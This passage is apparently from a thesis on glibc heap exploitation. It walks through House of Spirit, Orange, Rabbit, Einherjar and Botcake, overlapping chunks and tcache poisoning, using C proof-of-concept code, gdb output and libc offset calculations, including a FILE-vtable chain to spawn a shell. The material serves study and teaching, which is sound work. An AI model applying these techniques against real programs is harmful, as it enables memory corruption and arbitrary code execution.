After that, we need to abuse the vulnerability in a way the bck pointer of the victim points to our controlled memory address. 
\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.3\textwidth]{gdb3}}
  \caption{Heap layout}
\end{figure}
take into consideration the victim is not in the \ub{} anymore, instead, the heap manager moves it to the \sbs{} after allocation of p2. As you remember we mentioned, the heap manager checks all of the chunks inside the \ub{}, if the size is not suitable for current allocation they move to the corresponding bin. In other words, we force the heap manager to move the victim from the \ub{} to the \sbs{}.

\begin{lstlisting}[language=c,frame=tlrb]
void *p3 = malloc(0x100);
char *p4 = malloc(0x100);
\end{lstlisting}

\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.2\textwidth]{gdb4}}
  \caption{The victime and p3 pointer}
\end{figure}

Now we overwrite the victim bck pointer also put the victim in the \sbs{}. The next allocation returns the victim from the \sbs{}, moreover, it out bck pointer of the bin in libc to our controller address which is written in the bck pointer of the victim.

\begin{lstlisting}[language=c,frame=tlrb]
bin = bin_at (av, idx);
bck = victim->bk;
bin->bk = bck;
\end{lstlisting}

Now the last allocation returns a chunk at our controlled location at stack which now is inside the bck pointer of the bin. 

\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.2\textwidth]{gdb5}}
  \caption{bck pointer}
\end{figure}

\subsection{The House of Spirits}
In this attack, an attacker forged a fake chunk inside a controller location like the stack, then overwrote a pointer inside the application in a way pointing to the forged chunk. When the application frees the pointer, it puts our forged chunk inside the bins, as a result, the next malloc returns our forged chunk instead of the real chunk. All the attacker has to do is forge a chunk in a way that bypasses all libc security checks. Consider the application have a pointer call ‘a’, attacker has a forged chunk called ‘fake\_chunks’

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long long *a;
unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));
\end{lstlisting}

Now attacker set the size of current chunk and next chunk

\begin{lstlisting}[language=c,frame=tlrb]
fake_chunks[1] = 0x40;
fake_chunks[9] = 0x1234;
\end{lstlisting}

At least, the attacker overwrites the pointer to point to the data section of the forged chunk, then, free the pointer.

\begin{lstlisting}[language=c,frame=tlrb]
a = &fake_chunks[2];
free(a);
\end{lstlisting}

The result of such an action is, our fake chunk is at the top of the bin, so, the next malloc return to the attacker's controlled location.

\subsection{The House of Orange}
The house of Orange is different from previous attacks. As you remember in the previous attack we use malloc and free to abuse libc vulnerability, but, In the house of orange, we don’t use the free() function at all. In other words, we force the heap manager to free a chunk of the heap without calling the free() function. The final layout of this attack is a combination of \ub{} attacks, also, in the end, we gain shell access.

At the first, there is one chunk in the application which is called the top chunk with the size of 0x21000. The top chunk becomes smaller after allocation, As we mentioned before when a request has arrived, the heap manager first checks the bins, if there is no suitable chunk in the bins then, the heap manager tries to create a new chunk from the top chunk, so, what’s happen if the requested chunk size is bigger than top chunk too? There are two scenarios for such a situation: if the requested size is smaller than 0x21000, then extend the top chunk, otherwise, use mmap. If we can make the heap manager extend instead of mmap, then, the old top chunk is inserted into an \ub{} without calling the free function.

To achieve this, we have to meet some security conditions. There is a check for the top chunk inside the libc. 
\begin{lstlisting}[language=c,frame=tlrb]
 assert ((old_top == initial_top (av) && old_size == 0) ||
	((unsigned long) (old_size) >= MINSIZE &&
	prev_inuse (old_top) &&
	((unsigned long) old_end & (pagesize - 1)) == 0));
\end{lstlisting}

\begin{enumerate}
	\item Size must be greater than 'MINSIZE'
	\item Prev\_inuse flag must be set
	\item Top chunk + size must be page align
\end{enumerate}

Now let's put it all together. Consider the following code :

\begin{lstlisting}[language=c,frame=tlrb]
char *p1, *p2;
size_t *top;
p1 = malloc(0x400-16);
 \end{lstlisting}

First, we allocate a chunk with the size of 0x400, As we told, the top chunk size is 0x21000 after we allocate 0x400 the remaining top chunk is 0x20c00, also, consider the prev\_inuse flag the final size is 0x20c01.

\begin{lstlisting}[language=c,frame=tlrb]
top = (size_t *) ( (char *) p1 + 0x400 - 16);
top[1] = 0xc01;
p2= malloc(0x1000); 
\end{lstlisting}

Now, we have to change the top chunk size in a way to meet security checks. By set 0xc00 + Prev\_flag, we can bypass the security check. At least, we request a chunk larger than the top chunk size. In this situation, the heap manager creates a new top chunk where the old one has ended, then calls the free function to free the old top chunk, so, the old one moves to an \ub{}. 

The first part of the attack finished, now, It's time to talk about \libc{} file structure and abort routine before continuing to the second phase. What's happen if \libc{} detected corruption inside the heap structure? When libc detects any memory corruption, it call the Abort routing automatically. Abort routine flush all file pointers in memory by calling \_IO\_flush\_all\_lockp. Consider a part of code : 

\begin{lstlisting}[language=c,frame=tlrb]
struct _IO_FILE *fp;
fp = (_IO_FILE *) _IO_list_all;
while (fp != NULL)
   if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	  || (_IO_vtable_offset (fp) == 0
	    && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				  > fp->_wide_data->_IO_write_base))
#endif
	  )
	 && _IO_OVERFLOW (fp, EOF) == EOF)
\end{lstlisting}

As you can see, libc keeps file pointers inside \_io\_list\_all, so, in the corruption situation, all pointers be flush by the use of the io\_file object. When libc allocate a new file structure and fopen() return the pointer, the actual internal structure inside the \libc{} is io\_file\_plus , if we take a look at \libc{} code we have :

\begin{lstlisting}[language=c,frame=tlrb]
struct _IO_FILE_plus{
 _IO_FILE file;
 const struct _IO_jump_t *vtable;
};
\end{lstlisting}

As you can see this internal structure keeps \_io\_file object alongside a jump virtual table called \_io\_jump\_t. This virtual table contains a list of pointers to all of the file functions. Because \_io\_file use the virtual table to call files function, the attacker can forge a fake object and overwrite the pointer, as the result, he can gain control flow of the application

Our goal is to make \_IO\_flush\_all\_lockp call \_IO\_OVERFLOW, also, overwrite \_io\_list\_all with a forged file pointer in a way \_IO\_OVERFLOW point to system function. The result of this action is to open a shell.

To achieve this, the first thing is to calculate the address of \_io\_list\_all inside the libc. Currently, we have one freed chunk inside the \ub{}, the bk and fd pointer are pointed to the main arena of the heap, so, we can use this address to calculate the \_io\_list\_all address. 

With the help of https://libc.blukat.me, we can find the offset of \_io\_list\_all based on the \libc{} version. This sample use \libc{-2.23} , so we search inside we site for this specific \libc{} version :

\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.3\textwidth]{gdb6}}
  \caption{\_IO\_LIST\_ALL offset}
\end{figure}


Now we have the offset of io\_list\_all inside \libc{}, in the next step, with the help of vmmap in gdb found the start address of \libc{}, then add offset to \libc{} address to found io\_list\_all address in the current execution.
\begin{lstlisting}[language=c,frame=tlrb]
0x00007ffff7a36000 0x00007ffff7bce000 0x0000000000000000 r-x /mnt/vmshare/MasterThesis/libc223/libc.so.6
0x00007ffff7a36000+0x39c520 = 0x7FFFF7DD2520
 -> the address of io_list_all in current execution
\end{lstlisting}



However, this address can’t be calculated in the real-time execution, because we don’t have \libc{} address. As we mention the backward and forward pointer of the freed chunk is a point to heap main arena, also, the offset between the main arena and io\_list\_all always is fix, as the result, we can calculate this offset now and use it in real execution 
\begin{lstlisting}[language=c,frame=tlrb]
0x7FFFF7DD2520-0x7ffff7dd1b78 = 0x9a8 - > the offset of io_list_all from main arena
\end{lstlisting}

The final result is the below code :

\begin{lstlisting}[language=c,frame=tlrb]
io_list_all = top[2] + 0x9a8;
\end{lstlisting}

For the rest of the attack, we can use an \ub{} attack. As we mentioned before, in an \ub{} attack we can overwrite the bk pointer with any address, in this case, we want to overwrite io\_list\_all with the address of the \ub{} 

\begin{lstlisting}[language=c,frame=tlrb]
top[3] = io_list_all - 0x10;
\end{lstlisting}

At least we need to call system function inorder to run the shell:

\begin{lstlisting}[language=c,frame=tlrb]
memcpy( ( char *) top, "/bin/sh\x00", 8);
\end{lstlisting}


As we mentioned, the libc flushes all file pointers inside the io\_list\_all link list, which currently overwrites with the address of the \ub{}. 
The goal is to gain control of execution with the help of fd pointers. In the real list, the next file pointer is located at base\_address+0x68, if we consider bins, the mentioned address is a \sbs{}[4] which keeps a chunk between 90 to 98. We can conclude, if we manipulate the top chunk size again and set the size of 97, on the next allocation with a smaller size, the heap manager checks chunks in the \ub{} and puts it into corresponding bins which are smallbin[4]. Also, if we check the source code, we can see this size check : 

\begin{lstlisting}[language=c,frame=tlrb]
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
    || __builtin_expect (victim->size > av->system_mem, 0))
   malloc_printerr (check_action, "malloc(): memory corruption",
       chunk2mem (victim), av); 
\end{lstlisting}


During iteration over chunks inside the \ub{}, the libc checks the size of the chunk, if the size smaller than MINSIZE then the abort procedure called and an attack be performed.

\begin{lstlisting}[language=c,frame=tlrb]
top[1] = 0x61;
\end{lstlisting}


Now the chain of events are complete , but we have to meet the condition of IO\_LIST\_ALL

\begin{lstlisting}[language=c,frame=tlrb]
 FILE *fp = (FILE *) top;
 fp->_mode = 0; // top+0xc0
 fp->_IO_write_base = (char *) 2; // top+0x20
 fp->_IO_write_ptr = (char *) 3; // top+0x28
 size_t *jump_table = &top[12]; // controlled memory
 jump_table[3] = (size_t) &winner;
 *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
\end{lstlisting}

Finally, we trigger the attack by one allocation. 

\begin{lstlisting}[language=c,frame=tlrb]
 malloc(10);
\end{lstlisting}

\subsection{The House of roman = NOT FINISH YET}
This attack is a combination of \fb{} attack, \ub{} attack, and Use after the free attack, also, The goal is to open a shell. However, the chance of a successful attack is so small because we need to brute force 12-bit of randomness. The attack consists of three steps.

The first step is to get a pointer inside malloc\_hook, but, what is the malloc hook? Malloc\_hooc lets you modify the behavior of malloc and free with a hook function. To achieve this we use a \fb{} attack in a way the fd pointer points to malloc\_hook.

\subsection{The House of Rabbit}

This attack used a combination of fast bin and UAF attack to forge a fake heap chunk for feature uses. As we mentioned before, every fast bin keeps a single size chunk with a single linked list. What happens if we change a chunk inside the \fb{}? In allocation, \fb{} detects the abnormal size and aborts the allocation, however, If we force the heap manager to call malloc to consolidate, this chunk merge and split into \sbs{}, as the result, we have two valid but forged chunks in a \sbs{} which overlap which other. Consider the following code : 

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long *a = malloc(0x40);
unsigned long *b = malloc(0x40);
unsigned long *c = malloc(0x10);
\end{lstlisting}

First, we allocate 2 chunks with the third chunk to prevent merging chunks with the top chunk after calling free(). 

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(b);
a[-1]=0xa1;
\end{lstlisting}

Now if freed the chunks and use the UAF attack to change the size of the first one we have the below layout :

\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.3\textwidth]{gdb7}}
  \caption{Heap data}
\end{figure}

\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.2\textwidth]{gdb8}}
  \caption{\fb{}}
\end{figure}

Now with a single big allocation we have :
\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.12\textwidth]{gdb9}}
  \caption{\sbs{}}
\end{figure}

As you can see now we have two valid forged chunk inside the \sbs{} which have overlap with each other

\subsection{The House of Einherjar}
In this attack, the goal is to force malloc to return a chunk in any given address by use of the free function. Consider the free function :

\begin{lstlisting}[language=c,frame=tlrb]
/* consolidate backward */
if (!prev_inuse(p)) {
    prevsize = prev_size(p);
    size += prevsize;
    p = chunk_at_offset(p, -((long) prevsize));
	unlink (off, p, bck, fwd);
} 
 \end{lstlisting}
When a free function calls, it tries to merge the current chunk with the previous chunk if the prev\_inuse flag is not set. The merged chunk size is calculated by the size of the current chunk and the previous chunk. Before continue we have to mention the basis of the attack. As we mentioned in \libc{} the metadata at the end of the heap is in share with metadata at the beginning of the next chunk: 

\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.3\textwidth]{gdb10}}
  \caption{chunk layout}
\end{figure}

By considering the merge code of the free function we can tell if we have control over prev\_size , and prev\_inuse flag, we can have control over new chunk location. 
Consider the following sample, first, we need a chunk inside the heap, also, we need a fake chunk in any location. For this example we use the stack for fake chunk :
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* a;
a = (uint8_t*) malloc(0x38);
int real_a_size = malloc_usable_size(a);
size_t fake_chunk[6];
fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the \sbs{}
fake_chunk[2] = (size_t) fake_chunk; // fwd
fake_chunk[3] = (size_t) fake_chunk; // bck
fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
 \end{lstlisting}

Now we need another chunk inside the heap:

\begin{lstlisting}[language=c,frame=tlrb]
b = (uint8_t*) malloc(0xf8);
int real_b_size = malloc_usable_size(b);
uint64_t* b_size_ptr = (uint64_t*)(b - 8);
\end{lstlisting}

Now we use ‘a’ inorder to overflow and manipulate the size of ‘b’

\begin{lstlisting}[language=c,frame=tlrb]
a[real_a_size] = 0;
\end{lstlisting}

 Now its time to set prev\_size of our fake chunk to an inorder to merge it with our fake chunk

\begin{lstlisting}[language=c,frame=tlrb]
size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
fake_chunk[1] = fake_size;
\end{lstlisting}

The final step is free ‘b’ , after free ‘b’ it be merged with out fake chunk , so next malloc return our fake chunk

\begin{lstlisting}[language=c,frame=tlrb]
free(b);
d = malloc(0x200);
\end{lstlisting}


\subsection{ The House of Botcake}
The goal is to bypass \libc{} security checks in newer versions to perform a \tch{} double-free attack.
Consider the following code, like always, first, we assume our target is at the stack 

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t stack_var[4];
\end{lstlisting}
Now, We allocate 7 chunks to fill up the \tch{} in the future. As you remember we did this trick before too.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *x[7];
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
	x[i] = malloc(0x100);
}
\end{lstlisting}

The next step is to define a chunk to merge ‘prev’, and define the victim ‘a’, also, we define a small chunk to prevent merge chunks with the top chunk after free. 

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *prev = malloc(0x100);
intptr_t *a = malloc(0x100);
malloc(0x10);
\end{lstlisting}

As we mention, we need to fill up \tch{}, so , we perform the free function on the 7 chunks, as the result, heap manager force to use the \ub{} and other bins:

\begin{lstlisting}[language=c,frame=tlrb]
for(int i=0; i<7; i++){
    free(x[i]);
}
\end{lstlisting}

Now the tcahe is full. We perform the free function on the ‘prev’ and ‘a’.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(prev);
\end{lstlisting}

The result of the above is to consolidate the ‘prev’ chunk with the victim ‘a’. Attention to the size and the address of the chunk :

\begin{lstlisting}[language=c,frame=tlrb]
Before:
unsorted_bins[0]: fw=0x555555559b10, bk=0x555555559b10
Chunk(addr=0x555555559b20, size=0x110, flags=PREV_INUSE)

After
unsorted_bins[0]: fw=0x555555559a00, bk=0x555555559a00
Chunk(addr=0x555555559a10, size=0x220, flags=PREV_INUSE)
 \end{lstlisting}

\begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.1\textwidth]{gdb11}}
  \caption{a and prev pointers}
\end{figure}

In the next step with the help of UAF and double-free attack we put back the victim in the \tch{}

\begin{lstlisting}[language=c,frame=tlrb]
malloc(0x100);
free(a);
\end{lstlisting}

The above procedure has another result too, now we have two chunks that overlap too. For the rest of the attack, we perform a \tch{} poisoning. First, define a victim and overwrite the fd pointer in a way pointing to the target, then two allocations. The last allocation has control over the target

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *b = malloc(0x120);
b[0x120/8-2] = (long)stack_var;
malloc(0x100);
intptr_t *c = malloc(0x100);
\end{lstlisting}

 \begin{figure}[h!]
  \makebox[\textwidth][c]{
\includegraphics[height=0.1\textwidth]{gdb12}}
  \caption{\tch{}}
\end{figure}


\section{ Overlapping chunks}
The goal is to have two chunks that write data in one of them and overwrite the other one data. We discuss this attack on a sample, first lest start 3 chunk of memory :

\begin{lstlisting}[language=c,frame=tlrb]
p1 = malloc(0x100 - 8);
p2 = malloc(0x100 - 8);
p3 = malloc(0x80 - 8);
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
  [0x0000555555559210   33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33  3333333333333333]
\end{lstlisting}

Now lets free() the second chunk, As we discuss, This chunk add to the \ub{} at first, then, It can be used for future allocation :

\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
  Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)

Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
  [0x0000555555559210   33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33  3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV_INUSE)  top chunk
\end{lstlisting}

In the next step, like we did before, We have to change the chunk size by overflow :

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
  Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}
 
As you remember, currently , p2 located at the \ub{} , also, we change the size of p2, so, when the heap manager receives an allocation request it return p2, as the result, it have overlap with previous chunks :

\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]   
gef p p4
$11 = (intptr_t *) 0x555555559110
gef p p2
$12 = (intptr_t *) 0x555555559110
gef p p1
$13 = (intptr_t *) 0x555555559010
gef p p3
$14 = (intptr_t *) 0x555555559210
\end{lstlisting}
  
As you can see, p3 is not in the list of chunks anymore, however, the pointer still accessible inside the application.Now the p3 and p4 have overlap, so , write data on one of them could overwrite the other one data
What happened if the chunk size was so big? As we mentioned, the system can use mmap in this scenario. Take consider the following code : 

\begin{lstlisting}[language=c,frame=tlrb]
int* ptr1 = malloc(0x10);
long long* top_ptr = malloc(0x100000);
long long* mmap_chunk_2 = malloc(0x100000);
long long* mmap_chunk_3 = malloc(0x100000);
\end{lstlisting}

heap layout after allocation 

\begin{lstlisting}[language=c,frame=tlrb]
Chunk(addr=0x555555559010, size=0x20, flags=PREV_INUSE)
  [0x0000555555559010   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................]
Chunk(addr=0x555555559030, size=0x410, flags=PREV_INUSE)
  [0x0000555555559030   0a 43 75 72 72 65 6e 74 20 53 79 73 74 65 6d 20  .Current System ]
Chunk(addr=0x555555559440, size=0x20bd0, flags=PREV_INUSE)  top chunk
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
gef p mmap_chunk_2
$1 = (long long *) 0x7ffff7935010
gef p mmap_chunk_3
$2 = (long long *) 0x7ffff7834010
gef p top_ptr
$3 = (long long *) 0x7ffff7ef2010
\end{lstlisting}

Like the previous one, we change the size of the last chunk. The new chunk size is the sum of the size of chunk\_3 and chunk\_2, as the result, the unmmap freezes both areas.

\begin{lstlisting}[language=c,frame=tlrb]
free(mmap_chunk_3);
\end{lstlisting}

In this stage if we allocate a new big chunk, this new big chunk is overlap with chunk\_2 which just has been unmmap without call unmmap directly, as the result, we can write on the chunk2 area with the help of our new chunk.

\section{\tch{} poisoning}
This attack is specially designed for \tch{} bins, As a result, The \tch{} attack won't work on the older version of libc which does not have \tch{}. The final goal is to force \tch{} to return a chunk in a controlled location for example the stack. consider the following code : 

\begin{lstlisting}[language=c,frame=tlrb]
size_t stack_var;
intptr_t *a = malloc(128);
intptr_t *b = malloc(128);
free(a);
free(b);
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2  Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE)  Chunk(addr=0x5555555592a0, size=0x90, flags=PREV_INUSE) 
\end{lstlisting}

The controller location in this sample is a variable inside the stack. In the next step, we allocate and free two chunks. In newer versions of \libc{}, this chunk could be added to \tch{}.
In the second step we overwrite the fd pointer of chunk ‘b’ :

\begin{lstlisting}[language=c,frame=tlrb]
b[0] = (intptr_t)&stack_var;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2  Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE)  Chunk(addr=0x7fffffffde68, size=0x7ffff7fc7fc8, flags=)  Chunk(addr=0x555555555410, size=0x9066c3c9fffffcc0, flags=NON_MAIN_ARENA)  [Corrupted chunk at 0x8d4c5741fa1e0ff3]
